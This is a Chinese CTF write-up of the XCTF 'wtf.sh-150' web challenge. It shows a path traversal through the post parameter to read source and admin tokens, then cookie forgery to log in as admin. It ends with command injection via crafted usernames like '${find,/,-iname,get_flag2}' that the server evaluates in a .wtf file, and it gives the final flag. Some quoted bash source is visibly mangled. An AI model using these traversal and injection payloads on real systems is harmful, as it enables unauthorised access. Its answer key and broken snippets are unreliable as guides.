


# wtf.sh-150

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=7ad4a60d-1e03-4931-a003-ba12f065dfab_2)

我做这道题的心情就和题目一样：wtf什么玩意

直接上[wp](https://www.cnblogs.com/zhengna/p/13993056.html)，我真的完全不会。

进来是个论坛，随便点进个帖子看看。注意到url显示如下。

- http://61.147.171.105:59507/post.wtf?post=9EH1l

我与大佬的差距就出现了。大佬们瞬间想到了[路径穿越漏洞](https://blog.csdn.net/angry_program/article/details/107855078)，而我持续懵逼。大概就是，post参数控制显示的页面，但是这个参数可以由我们随意控制。后台代码没有对我们的输入做过滤，导致可以任意穿越到意料之外的路径。比如这里我们传个..,就能查看上级目录了。

上级目录中有网站源码。其中有一段和flag有关。

```bash
$ if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]] $ then $ get_flag1
```

要求cookie中username等于admin。注册一个账号看看登陆需要的cookie格式。

- Cookie: USERNAME=test; TOKEN=TEWHPTBN46lefnheArlstESlOaBBu6oJTTNVwiOVSO0SCCSK9xf/5Z8a47imWafA0etZCFzyODLmsBSqFR7m0A==

除了用户名还有个token。token应该在某个地方有存储，继续搜索源码得到users文件

- http://61.147.171.105:59507/post.wtf?post=../users

发现admin的token。主页点击自己的profile，然后抓包，将cookie和get参数全部改成admin的，这样我们就是admin了。最下面发现第一段flag。



get参数user的值可以点进admin的profile查看，值为jlvfK。目前还不难，第二段flag才是噩梦的开始。

仔细看前面几个url，wtf后缀是什么文件？总之我没搜到。那么服务器上必定有解析这种后缀的文件。在源码中找到了下面的代码。

```bash
function include_page {
    # include_page pathname
    local pathname=$1
    local cmd=
    [[ ${pathname(-4)} = '.wtf' ]];
    local can_execute=$;
    page_include_depth=$(($page_include_depth+1))
    if [[ $page_include_depth -lt $max_page_include_depth ]]
    then
        local line;
        while read -r line; do
            # check if we're in a script line or not ($ at the beginning implies script line)
            # also, our extension needs to be .wtf
            [[ $ = ${line01} && ${can_execute} = 0 ]];
            is_script=$;
            # execute the line.
            if [[ $is_script = 0 ]]
            then
                cmd+=$'n'${line#$};
            else
                if [[ -n $cmd ]]
                then
                    eval $cmd  log Error during execution of ${cmd};
                    cmd=
                fi
                echo $line
            fi
        done  ${pathname}
    else
        echo pMax include depth exceeded!p
    fi
}
```

我模模糊糊看懂了一点，但是不够。幸好注释差不多把这个文件的作用说完了：执行后缀为.wtf的文件中以$开头的代码行。

```bash
function reply {
    local post_id=$1;
    local username=$2;
    local text=$3;
    local hashed=$(hash_username "${username}");
    curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
    next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
    next_file=(posts/${post_id}/${next_reply_id});
    echo "${username}" > "${next_file}";
    echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
    echo "${text}" >> "${next_file}";
    # add post this is in reply to to posts cache
    echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```

我不知道大佬们怎么看出来的，echo "${username}" > "${next_file}";有问题。当username以$开头，且被写入的文件next_file以.wtf结尾，那么username中对应的代码会被执行。include_page应该会解析网站中所有的.wtf文件，所以当我们自己上传一个wtf文件也是会被解析的。这么想还挺合理的，可能是我对漏洞没有这么高的敏感度吧。

随便点进一个帖子，点击reply进行评论，然后抓包。



text随便填，关键是post参数。这个参数让我们在上级目录的users_lookup下写入了一个名叫hm.wtf的文件。根据reply的源码，现在我们的用户名test应该被写入到这个文件了。访问这个文件发现果然如此。

- http://61.147.171.105:59507/users_lookup/hm.wtf
    > test RE: sd

这样我们就能在用户名上动手脚了。注册一个用户名是我们想要执行的命令的我用户。

- ${find,/,-iname,get_flag2}

\$符合wtf文件执行命令的格式。重复之前实验用的步骤，得到第二部分flag的路径。

- /usr/bin/get_flag2

再注册一个用户，继续重复上面的步骤。

- $/usr/bin/get_flag2 

两部分拼接即可得到完整flag。大佬还是大佬，我跟着思路走完还是懵的。可能是因为看不懂bash吧。

- ### Flag
  > xctf{cb49256d1ab48803149e5ec49d3c29ca}